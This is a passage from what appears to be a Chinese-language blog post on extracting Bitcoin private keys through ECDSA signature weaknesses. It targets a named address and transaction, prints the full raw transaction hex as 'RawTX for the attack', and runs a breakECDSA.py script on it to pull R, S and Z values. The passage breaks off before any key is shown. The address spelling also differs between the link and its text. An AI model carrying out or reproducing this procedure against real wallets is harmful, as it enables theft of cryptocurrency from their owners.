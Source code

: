 

<blockquote class="wp-block-quote">
<p><em>丟失 BTC 硬幣的潛在威脅在於比特幣區塊鏈交易的嚴重漏洞，因此我們強烈建議大家始終更新軟件並僅使用經過驗證的設備。</em></p>
</blockquote>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>通過詳細的密碼分析，我們還在同一比特幣地址的<strong><a href="https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3" target="_blank" rel="noreferrer noopener">cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3</a></strong>中發現了一個嚴重漏洞<strong><code>&nbsp;TXID:</code></strong><strong><a href="https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3" target="_blank" rel="noreferrer noopener"></a></strong></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>為攻擊準備 RawTX</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB" target="_blank" rel="noreferrer noopener">18hdfynnojmiMmBMsrkXNFWketq4mmDHB</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/cfc6047c1ad23ddb9d3e0151217fe62f045429ffb225e878a07a0db6f98fb9b3
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-152-1024x142.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1274"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>
